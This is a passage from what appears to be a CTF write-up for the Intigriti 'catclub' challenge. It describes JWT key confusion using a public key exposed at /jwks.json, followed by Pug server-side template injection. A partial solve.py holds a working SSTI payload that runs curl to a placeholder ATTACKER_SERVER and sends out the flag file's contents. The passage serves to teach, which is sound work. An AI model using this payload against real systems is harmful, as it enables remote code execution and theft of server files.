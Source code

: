 You can do this with the JWT tool, or one of the JWT extension in burp. I made a [video series](https://www.youtube.com/watch?v=GIq3naOLrTg&list=PLmqenIp2RQciV955S2rqGAn2UOrR2NX-v) covering the JWT attack material and labs from Portswigger, over on the Intigriti channel if you are interested 🙂

The public key is exposed on the common `/jwks.json` endpoint.


```js
router.get("/jwks.json", async (req, res) => {
    try {
        const publicKey = await fsPromises.readFile(path.join(__dirname, "..", "public_key.pem"), "utf8");
        const publicKeyObj = crypto.createPublicKey(publicKey);
        const publicKeyDetails = publicKeyObj.export({ format: "jwk" });

        const jwk = {
            kty: "RSA",
            n: base64urlEncode(Buffer.from(publicKeyDetails.n, "base64")),
            e: base64urlEncode(Buffer.from(publicKeyDetails.e, "base64")),
            alg: "RS256",
            use: "sig",
        };

        res.json({ keys: [jwk] });
    } catch (err) {
        res.status(500).json({ message: "Error generating JWK" });
    }
});
```


All that's left is to modify our username with a Pug SSTI payload, e.g. from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

I automated the whole process with detailed comments explaining each step. You just need to update the `BASE_URL`, `JWT_TOOL_PATH` and the `ATTACKER_SERVER` in the `SSTI_PAYLOAD`.

### solve.py


```python
import requests
import subprocess
from base64 import urlsafe_b64decode
from Crypto.PublicKey import RSA

# Constants for challenge
BASE_URL = 'https://catclub-0.ctf.intigriti.io'
REGISTER_URL = f'{BASE_URL}/register'
LOGIN_URL = f'{BASE_URL}/login'
JWK_URL = f'{BASE_URL}/jwks.json'
CAT_URL = f'{BASE_URL}/cats'
JWT_TOOL_PATH = f'/home/crystal/apps/jwt_tool'

SSTI_PAYLOAD = "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('curl https://ATTACKER_SERVER/?flag=$(cat /flag* | base64)')}()}"

def base64url_decode(data):
    return urlsafe_b64decode(data + b'=' * (-len(data) % 4))

# Register a new user
def register_user(username, password):
    print(f"[*] Attempting to register user: {username}")
    response = requests.post(
        REGISTER_URL, data={"username": username, "password": password})

```